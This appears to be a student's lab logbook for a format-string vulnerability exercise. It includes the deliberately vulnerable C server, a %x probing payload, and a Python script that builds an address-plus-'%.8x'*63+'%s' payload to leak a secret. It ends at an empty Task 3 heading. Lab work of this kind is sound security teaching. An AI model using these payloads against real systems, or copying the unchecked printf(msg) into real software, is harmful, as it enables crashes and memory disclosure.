# Logbook 7
```c
unsigned int target = 0x11223344;
char *secret = "A secret message\n";
void myprintf(char *msg)
{
// This line has a format-string vulnerability
printf(msg);
}
int main(int argc, char **argv)
{
char buf[1500];
int length = fread(buf, sizeof(char), 1500, stdin);
printf("Input size: %d\n", length);
myprintf(buf);
return 1;
}
```
## Pre steps
- We executed the make file in servers

 - We then built the docker

 - In the next step we run the code that starts the server 

## Task 1
 - We tested the server using this code

 - The output of the server is this

To crach the server we simply ran the this code that makes echo of %s using this code the server will try to access a string with an address mostly invalid wich will crach the printf

We can check that the function crashed because it didnt print the smiles


## Task 2 A
To check how many %x we can put in the input until we used this code to check when we can see 41 wich is hechadecimal to A we used this file with the name Payload2.txt
```txt
AAAA %x - %x - %x - %x - %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x -A %x - %x - %x - %x - %x -A %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x -1 %x
```

We can see four 41 in the last print of the server we needed 63 %x to get to the top of the input


## Task 2 B
To use we used this code wich was already mostly done with the name buil_string.py and we changed a little bit of the code 
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   63 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

```
We runned the python code

We executed the attack like this

The output of the server was a success


## Task 3 A
